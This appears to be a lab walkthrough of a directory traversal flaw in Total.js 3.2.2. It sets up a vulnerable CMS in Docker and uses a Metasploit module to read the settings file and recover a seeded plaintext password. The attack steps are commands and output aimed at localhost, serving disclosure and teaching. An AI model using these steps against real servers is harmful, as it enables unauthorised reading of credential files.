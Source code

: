 ```yaml
---
layout: default
---
```


# Total.js Directory Traversal: try this at home

[Total.js](https://www.totaljs.com) is a framework for Node.js platfrom written in pure JavaScript similar to PHP's Laravel or Python's Django or ASP.NET MVC. It can be used as web, desktop, service or IoT application.

Affected versions of this framework are vulnerable to Directory Traversal. This attack, also known as Path Traversal, aims to access files and directories that are stored outside the intended folder.

Follows a Proof of Concept that exploit this vulnerable within the Total.js CMS in order to disclose users credentials.

## Labs setup
The most fashion and easy way to try the vulnerability is [docker](https://www.docker.com). With docker we setup a testing lab.

Create a directory where store image source.

```
root@kali:~# mkdir totaljs
```

cd into the new directory and download the Total.js CMS

```
root@kali:~# cd totaljs && git clone https://github.com/totaljs/cms.git
```
In order to have at least one user in our CMS, replace the content of `cms/databases/settings.json` with this:
 
 ```
 {"componentator":false,"smtpoptions":"","smtp":"","languages":[],"signals":[],"users":[{"id":"f92trzhgdkvu1mt","name":"Fabio Cogno","login":"fabio.cogno","password":"certimetergroup","roles":["Dashboard","Events","Newsletters","Notices","Pages","Posts","Settings","Subscribers","Widgets"]}],"navigations":[{"id":"mainmenu","name":"Main menu"}],"notices":[{"id":"tweet","name":"Tweet"}],"posts":[{"id":"blog","name":"Blog"}],"templatesnewsletters":[{"id":"newsletter","name":"Default"}],"templatesposts":[{"id":"post","name":"Default"}],"templates":[{"id":"default","name":"Default"},{"id":"navigation","name":"With navigation"},{"id":"fluid","name":"Fluid"}],"url":"http://127.0.0.1:8000","emailsender":"info@totaljs.com","emailreply":"info@totaljs.com","emailcontactform":"info@totaljs.com"}
 ```
Then, create the `dockerfile` and open it with your favorite editor (e.g.: `nano dockerfile`). This file allow us to create an image from a node v8 image, install Total.js framework and copy the Total.js CMS in it:

```
FROM node:8
WORKDIR /home/node/totaljs
COPY cms/package*.json ./
RUN npm install
COPY cms/ .
RUN npm install total.js@3.2.2
EXPOSE 8000
CMD ["node","debug.js"]
```
Ok, now build the new image:

```
root@kali:~# docker build -t totaljs:3.2.2 .
```
When the build process finished, run a container with the totaljs image

```
root@kali:~# docker run -p 8322:8000 totaljs:3.2.2 --name totaljs-3.2.2
```

Now browse to [http://localhost:8322/](http://localhost:8322/).

## Exploiting the vuln!

In order to exploit the vulnerability, setting up the metasploit module as indicated in the [README.md](github.com/fabiocogno/metasploit-modules/README.md) file.

Start Metasploit console:

```
root@kali:~# msfconsole
```
When started, select the module:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > use auxiliary/scanner/http/totaljs_traversal
```
Now, set the host and the port to exploit

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set rhost localhost
msf5 auxiliary(scanner/http/totaljs_traversal) > set rport 8322
```
The default `ACTION` is check that reveale if the host:port is vulnerable and than disclose the framework version and some other useful informations:
```
msf5 auxiliary(scanner/http/totaljs_traversal) > run
```
We can see an output like this one:

```
[*] Total.js version is: ^3.2.2
[*] App name: CMS
[*] App description: A simple and powerful CMS solution written in Total.js / Node.js.
[*] App version: 12.0.0
[*] Auxiliary module execution completed
```
Ok, our total.js testing container is vulnerable and the framework version is, strangely, 3.2.2..

As promised, we exploit this vulnerability in order to disclose the users credentials of the Total.js CMS. To do this, we can use the `READ` action:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set action READ
```
And then set up the `databases/settings.json` and try to retrieve it from the CMS directory:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set FILE databases/settings.json
FILE => databases/settings.json
msf5 auxiliary(scanner/http/totaljs_traversal) > run
```

The output of the module is like this:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > run

[*] Getting databases/settings.json...
{"componentator":false,"smtpoptions":"","smtp":"","languages":[],"signals":[],"users":[{"id":"f92trzhgdkvu1mt","name":"Fabio Cogno","login":"fabio.cogno","password":"certimetergroup","roles":["Dashboard","Events","Newsletters","Notices","Pages","Posts","Settings","Subscribers","Widgets"]}],"navigations":[{"id":"mainmenu","name":"Main menu"}],"notices":[{"id":"tweet","name":"Tweet"}],"posts":[{"id":"blog","name":"Blog"}],"templatesnewsletters":[{"id":"newsletter","name":"Default"}],"templatesposts":[{"id":"post","name":"Default"}],"templates":[{"id":"default","name":"Default"},{"id":"navigation","name":"With navigation"},{"id":"fluid","name":"Fluid"}],"url":"http://127.0.0.1:8000","emailsender":"info@totaljs.com","emailreply":"info@totaljs.com","emailcontactform":"info@totaljs.com"}
[*] Auxiliary module execution completed
```

You can observe some useful informations, especially the username `"login":"fabio.cogno"` and the clear text password `"password":"certimetergroup"`. Now we can browse to [http://localhost:8322/admin/](http://localhost:8322/admin/) and try to login with the discovered credentials.

## Thanks

Special thanks to Riccardo Krauter for the vulnerability discovery and Fabio Cogno for the module development.

